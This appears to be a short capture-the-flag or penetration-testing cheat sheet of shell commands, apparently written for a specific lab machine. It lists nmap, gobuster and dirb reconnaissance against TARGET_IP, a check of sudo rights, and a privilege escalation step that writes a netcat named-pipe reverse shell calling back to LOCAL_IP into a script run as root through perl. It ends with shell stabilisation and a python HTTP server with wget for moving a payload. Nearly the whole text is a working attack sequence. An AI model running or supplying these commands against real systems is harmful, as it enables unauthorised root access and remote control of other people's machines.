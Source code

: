 # nmap scan
sudo nmap -sC -sV -v -oN nmap.md TARGET_IP 



# Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt

sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt



# dirbuster scan
sudo dirb http://TARGET_IP/ -R 


# Cat all find read
cat *


# import TARGET_IP
$IP



# To Check Sudo Permissions
sudo -l




# prev esc linux bash shell
sudo bash


# perl write to copy.sh [reverse shell]
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl



# python shell - stable bash shell
python3 -c  'import pty;pty.spawn("/bin/bash")'



# run python http server
sudo python -m SimpleHTTPServer 80


# wget download file
sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/
